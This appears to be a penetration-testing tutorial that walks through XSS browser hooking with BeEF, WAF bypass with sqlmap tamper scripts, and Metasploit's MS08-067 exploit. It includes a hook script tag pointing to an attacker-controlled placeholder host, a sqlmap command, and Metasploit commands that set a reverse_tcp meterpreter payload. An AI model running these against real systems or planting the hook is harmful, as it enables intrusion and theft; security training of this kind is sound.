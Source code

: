 ```yaml
---
title: "Exploiting Web Vulnerabilities & Gaining Access: Taking Control with BeEF, sqlmap, and Metasploit"
description: "This tutorial explores advanced exploitation techniques for web vulnerabilities, focusing on using BeEF for browser exploitation, leveraging sqlmap tamper scripts for SQLi, and utilizing Metasploit for gaining initial access."
image: "https://armur-ai.github.io/armur-blog-pentest/images/security-fundamentals.png"
icon: "code"
draft: false
---
```


## Introduction

This tutorial delves into advanced exploitation techniques for web vulnerabilities, focusing on utilizing BeEF for browser exploitation through XSS, leveraging sqlmap tamper scripts for bypassing SQLi filters, and utilizing Metasploit for exploiting various vulnerabilities and gaining initial access to target systems.

### Exploiting XSS with BeEF

BeEF (The Browser Exploitation Framework) is a powerful tool for launching targeted attacks against web browsers. It utilizes XSS vulnerabilities to hook browsers and execute commands within the victim's context.

**Step 1: Install BeEF**

Follow the installation instructions on the BeEF website: [BeEF Installation](https://beefproject.com/)

**Step 2: Hooking Browsers**

Inject a BeEF hook into a vulnerable web page using an XSS payload.

**Example BeEF Hook:**

```html
<script src="http://your_beef_ip:3000/hook.js"></script>
```

**Step 3: Utilizing BeEF Modules**

Once a browser is hooked, you can use BeEF modules to gather information, execute commands, and launch further attacks.

**Example: Using the "Get Internal IP" Module**

Navigate to the hooked browser in the BeEF control panel and select the "Get Internal IP" module. This module retrieves the victim's internal IP address.

### Advanced SQLi Exploitation with sqlmap Tamper Scripts

sqlmap tamper scripts are used to bypass web application firewalls (WAFs) and other security measures that might block SQL injection attempts.

**Step 1: Identify WAF Rules**

Analyze the web application's responses to identify WAF rules that are blocking your SQLi payloads.

**Step 2: Select Appropriate Tamper Scripts**

Choose sqlmap tamper scripts that are designed to bypass the specific WAF rules you've identified.

**Example: Using the "space2comment" Tamper Script**

The `space2comment` tamper script replaces spaces with comments to bypass WAFs that block spaces in SQL queries.

```bash
sqlmap -u "http://example.com/vulnerable_page?id=1" --tamper space2comment --dbs
```

### Leveraging Metasploit for Exploitation

Metasploit is a penetration testing framework that provides a vast collection of exploits, payloads, and auxiliary modules for exploiting various vulnerabilities.

**Step 1: Choose an Exploit**

Search for exploits that target the specific vulnerability you've identified in your target system.

**Example: Exploiting MS08-067**

MS08-067 is a vulnerability in the Microsoft Server service that allows remote code execution.

```bash
use exploit/windows/smb/ms08_067_netapi
```

**Step 2: Set Options**

Configure the exploit with the necessary options, such as the target IP address and payload.

**Example: Setting Options**

```bash
set RHOST 192.168.1.100
set PAYLOAD windows/meterpreter/reverse_tcp
```

**Step 3: Execute the Exploit**

Run the exploit to attempt to gain access to the target system.

```bash
exploit
```

## Best Practices for Exploitation

* **Ethical Considerations:** Only exploit systems that you have permission to test.
* **Understand the Risks:** Exploitation can have serious consequences if not performed carefully.
* **Thorough Reconnaissance:** Gather as much information as possible about the target before attempting exploitation.
* **Verify Success:** Ensure that the exploit was successful and that you have gained the intended level of access.

## Conclusion

This tutorial explored advanced exploitation techniques for web vulnerabilities, including using BeEF for browser exploitation, leveraging sqlmap tamper scripts for SQLi, and utilizing Metasploit for gaining initial access. Mastering these techniques is crucial for penetration testers and security professionals to effectively assess and mitigate web application vulnerabilities. Remember to always adhere to ethical hacking principles and obtain proper authorization before conducting any penetration testing activities.